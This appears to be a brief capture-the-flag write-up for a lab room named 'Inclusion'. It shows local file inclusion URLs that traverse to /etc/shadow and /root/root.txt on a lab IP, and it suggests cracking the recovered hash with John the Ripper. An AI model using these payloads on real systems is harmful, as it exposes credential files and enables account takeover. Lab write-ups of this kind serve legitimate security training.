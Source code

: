 # Inclusion

- Enumeration

    Nmap Scan

    ![Inclusion%20b6d8e18de58b4bef8c2a40ce930fe1de/Untitled.png](Inclusion%20b6d8e18de58b4bef8c2a40ce930fe1de/Untitled.png)

- LFI

    This room have [LFI](https://www.notion.so/LFI-c7b0fd7319234fea9db9b34979003f4f) Vulneribility

    So you can just do this:

    http://10.10.66.6/article?name=../../../etc/shadow

    ![Inclusion%20b6d8e18de58b4bef8c2a40ce930fe1de/Untitled%201.png](Inclusion%20b6d8e18de58b4bef8c2a40ce930fe1de/Untitled%201.png)

    Now use the hash and crack it using [john](https://www.notion.so/John-the-Ripper-db1063d54bb74d288cc07463d6afc720)

- Getting Root Flag

    Using the LFI Vulnerability to get the root Flag

    http://10.10.66.6/article?name=../../../root/root.txt](http://10.10.66.6/article?name=../../../root/root.txt

    ![Inclusion%20b6d8e18de58b4bef8c2a40ce930fe1de/Untitled%202.png](Inclusion%20b6d8e18de58b4bef8c2a40ce930fe1de/Untitled%202.png)
